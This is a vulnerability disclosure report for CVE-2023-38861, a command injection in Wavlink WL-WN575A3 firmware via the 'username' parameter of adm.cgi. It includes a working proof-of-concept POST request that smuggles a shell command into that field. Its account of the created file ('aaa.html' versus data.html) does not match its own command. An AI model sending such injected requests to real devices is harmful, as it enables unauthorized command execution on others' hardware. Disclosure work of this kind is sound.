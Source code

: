 # CVE-ID

[cve-2023-38861](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38861)

# Information

**Vendor of the products:**  WAVLINK

**Vendor's website:**  https://www.wavlink.com/en_us

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com))

**Affected products:** Wavlink WL-WN575A3

**Affected firmware version:** R75A3_V1410_220513

**Firmware download address:** https://www.wavlink.com/en_us/firmware/details/fac744bd61.html

# Overview

`Wavlink WL-WN575A3 R75A3_V1410_220513` has a command injection vulnerability detected at function `set_sys_adm`. Attackers can send `POST` request messages to `/cgi-bin/adm.cgi` and inject evil commands into parameter `username` to execute arbitrary commands.

# Product parameters

`Wavlink WL-WN575A3` is an AC1200 Dual-band Wi-Fi Range Extender. The test version(the newest version) here is `R75A3_V1410_220513`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/adm.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![](imgs/2.png)

In the function `ftext`, When sending a POST request to this interface, function `set_sys_adm` can be accessed by setting the parameter value of `page` to `sysAdm`.

<img src="imgs/3.png" style="zoom:100%;" />

In the function `set_sys_adm`, the program uses function `web_get` to obtain the content of parameter `SYSPASS`, `username` and `newpass` which are sent by `POST` request. On line 55, the attacker can complete command execution by controlling the `username` variable.

![](imgs/4.png)



# POC

Send the following to the URL `http://192.168.10.1/cgi-bin/adm.cgi` by `POST` request.

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

# Attack Demo

After sending the POC, the command `ls>/etc_ro/lighttpd/www/data.html` will be executed and `aaa.html` will be created in the `/etc_ro/lighttpd/www/data.html` directory.

![](imgs/5.png)

![](imgs/6.png)